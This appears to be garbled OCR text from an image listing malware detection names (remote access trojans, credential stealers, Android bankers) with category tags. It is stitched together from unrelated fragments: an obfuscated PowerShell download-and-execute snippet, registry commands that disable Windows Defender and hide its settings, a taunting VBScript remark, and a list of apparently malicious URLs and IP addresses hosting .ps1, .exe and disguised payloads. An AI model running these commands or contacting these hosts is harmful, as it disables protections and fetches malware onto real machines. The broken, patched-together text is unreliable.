 AutoitInject.MA!  [process_injection_utility]
DarkComet.A!  [remote_access_trojan] 
NanoCoreRAT.D!  [remote_access_trojan]
LimeRAT.A!  [remote_access_trojan]
PSWStealer.ARA!  [credential_stealer]
Zonsterarch  [unknown] 
Ziconarch  [unknown]
Worm:VBS/Jenxcus  [worm_that_spreads_through_drives_\_network_shares]
!Injector.gen!  [process_injection_utility]
SSHDoor.B  [backdoor_utility]  
Sirefef.AK  [coinminer_\_botnet_creation]  
/Proslikefan.gen  [unknown]
¡ROFTWARE  [unknown] 
Xiaoba666  [target_iot_devices_to_create_botnet]            







(0&,chr(112)+"ower"+"shell.exe"+chr(150)+"windowstylehidden"+"iex

($tty,'down'+'load'+'str'+'ing'

Lol get epicly reked/pwned by my epic VBScript!I copied FlyTech's homework!Get spamed



>ProcKill.SB
SCRT:Str_smartscreen
SCRT:Str_SecurityHealthService.
SCRT:Str_SecurityHealthSystray

addhklm\software\policies\microsoft\windows defender disableantispywarereg addhklm\software\microsoft\windows defender disableantispywarereg deletehklm\software\microsoft\windows\currentversion\run securityhealthreg addhklm\software\microsoft\windows\currentversion\policies\explorer settingspagevisibility hide:windowsdefender





TrojanSpy:AndroidOS/SmsThief.BB!
AndroidOS/Banker.C!
AndroidOS/DomesticKitten.A!
AndroidOS/SpyMax.A
AndroidOS/FakeLogIn.A!
Trojan:AndroidOS/BankerAgent.AA.
Trojan:AndroidOS/Piom.AA.
Trojan:AndroidOS/Wroba.AA.Backdoor:
AndroidOS/bdrAgent.AA.
Trojan:AndroidOS/Trojdropper.AA.
Trojan:AndroidOS/SMSagent.AA.
TrojanSpy:AndroidOS
AndroidOS/PaySpy.A!


http://185.219.81.232

http://alemoney.xyz
http://docs.drinkcoffeelooseweight.co
http://91.196.216.30
http://thelongislandpress.com/controls.php
http://dekspol.com/images/g7h/img_0386.php>
//52.174.49.50
b.l.u.e.c.o.v.e.r.t.r.a.d.i.n.g...c.o.m
http://138.201.149.43/.../....ps1
http://195.133.18.171/ddcrpted.jpg
https://kng1d4.xyz/wrfpnqbt/gzjunslfpo087855.exe
192.168.3.2
https://bit.ly/3uNrtcg
http://20.106.232.4/dll/new.pdf
